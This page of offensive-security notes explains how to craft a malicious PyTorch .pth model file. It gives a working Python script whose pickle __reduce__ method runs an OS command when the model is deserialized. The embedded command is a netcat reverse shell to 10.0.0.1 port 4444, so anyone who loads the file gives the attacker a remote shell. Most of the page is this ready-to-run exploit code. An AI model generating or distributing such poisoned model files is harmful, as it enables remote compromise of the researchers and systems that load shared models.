 # Pytorch Models/PTH Files Code Execution

## Theory

A file with a `.pth` extension typically contains a serialized PyTorch state dictionary. A PyTorch state dictionary is a Python dictionary that contains the state of a PyTorch model, including the model's weights, biases, and other parameters.

We can craft a malicious .pth file that will execute arbitrary code when model is loaded/trained/evaluated in the target system.

## Practice

{% tabs %}
{% tab title="Model Serialization Attack" %}
### 1 - Install Dependencies

It requires `torch` so install it:

```bash
# Create a virtual environment to avoid pulluting the host environment.
python3 -m venv myvenv
pip3 install torch
```

### 2 - Create Python Script To Generate Malicious Model

Now create a Python script that generates our malicious ML model. This model executes OS command when it is evaluated.

```python
# generate_model.py
import torch
import torch.nn as nn
import os

class EvilModel(nn.Module):
	def __init__(self):
		super(EvilModel, self).__init__()
		self.dense = nn.Linear(10, 50)
	
	def forward(self, evil):
		return self.dense(evil)
	
	def __reduce__(self):
		# Inject OS command.
		cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f"
		return os.system, (cmd,)

# Save the model
evil_model = EvilModel()
torch.save(evil_model, 'evil.pth')
```

### 3 - Run Python Script

Now execute this Python script as below:

```bash
python3 generate_model.py
```

After that, our model named `evil.pth` will be generated.


{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/machine-learning/model/create-malicious-ml-model/" %}
